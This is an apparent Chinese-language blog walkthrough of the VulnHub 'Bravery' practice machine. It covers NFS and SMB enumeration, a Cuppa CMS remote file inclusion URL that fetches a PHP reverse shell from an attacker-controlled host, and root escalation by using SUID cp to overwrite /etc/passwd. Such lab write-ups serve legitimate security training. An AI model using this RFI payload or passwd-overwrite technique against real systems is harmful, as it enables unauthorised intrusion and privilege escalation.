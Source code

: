 ```yaml
---
layout: post
title:  "vulnhub >_ Bravery"
description: walkthrough
category: vulnhub
---
```

# Bravery



![image-20200611023042725]({{ site.url }}/assets/Bravery.assets/image-20200611023042725.png)



![image-20200611023445556]({{ site.url }}/assets/Bravery.assets/image-20200611023445556.png)



![image-20200611023523893]({{ site.url }}/assets/Bravery.assets/image-20200611023523893.png)



![image-20200611030502540]({{ site.url }}/assets/Bravery.assets/image-20200611030502540.png)



![image-20200611030409992]({{ site.url }}/assets/Bravery.assets/image-20200611030409992.png)

```bash
mkdir nfs
sudo mount -t nfs 192.168.43.175:/var/nfsshare nfs
```

![image-20200611032610166]({{ site.url }}/assets/Bravery.assets/image-20200611032610166.png)

![image-20200611032653581]({{ site.url }}/assets/Bravery.assets/image-20200611032653581.png)

```bash
qwertyuioplkjhgfdsazxcvbnm
```

---

smb

```bash
enum4linux 192.168.43.175
```

![image-20200611032941272]({{ site.url }}/assets/Bravery.assets/image-20200611032941272.png)



![image-20200611032902030]({{ site.url }}/assets/Bravery.assets/image-20200611032902030.png)

```bash
smbclient --no-pass //192.168.43.175/anonymous
```

![image-20200611033137230]({{ site.url }}/assets/Bravery.assets/image-20200611033137230.png)

anonymous 可以匿名连接但是没什么有价值的东西。

secured 不可以匿名连接，使用-u实验一下已知的用户名，已经发现的可能是密码的字符串

```bash
smbclient //192.168.43.175/ -U david
```

![image-20200611034208068]({{ site.url }}/assets/Bravery.assets/image-20200611034208068.png)

![image-20200611034430762]({{ site.url }}/assets/Bravery.assets/image-20200611034430762.png)

![image-20200611034718681]({{ site.url }}/assets/Bravery.assets/image-20200611034718681.png)

逐个浏览

![image-20200611041235178]({{ site.url }}/assets/Bravery.assets/image-20200611041235178.png)



![image-20200611041308125]({{ site.url }}/assets/Bravery.assets/image-20200611041308125.png)



cuppa cms



![image-20200611041608266]({{ site.url }}/assets/Bravery.assets/image-20200611041608266.png)



很多漏洞。选最简单的，远程文件包含

![image-20200611041708993]({{ site.url }}/assets/Bravery.assets/image-20200611041708993.png)

拉shell，改文件名后缀为.txt

```bash
http://192.168.1.112/genevieve/cuppaCMS/alerts/alertConfigField.php?urlConfig=http://192.168.1.108:8080/php-reverse-shell.txt
```

![image-20200611080504082]({{ site.url }}/assets/Bravery.assets/image-20200611080504082.png)

基础枚举后发现cp 拥有SUID

![image-20200611084548532]({{ site.url }}/assets/Bravery.assets/image-20200611084548532.png)



![image-20200611084833422]({{ site.url }}/assets/Bravery.assets/image-20200611084833422.png)



先复制passwd到本地生成，复制root的信息到最后一行，

![image-20200611085117882]({{ site.url }}/assets/Bravery.assets/image-20200611085117882.png)

利用openssl生成新用户evil的hash

![image-20200611085830450]({{ site.url }}/assets/Bravery.assets/image-20200611085830450.png)

替换掉对应的用户名位和密码位

![image-20200611085903502]({{ site.url }}/assets/Bravery.assets/image-20200611085903502.png)

上传到可写目录tmp

![image-20200611090145720]({{ site.url }}/assets/Bravery.assets/image-20200611090145720.png)

利用cp替换

![image-20200611090259930]({{ site.url }}/assets/Bravery.assets/image-20200611090259930.png)

su evil

![image-20200611090403674]({{ site.url }}/assets/Bravery.assets/image-20200611090403674.png)

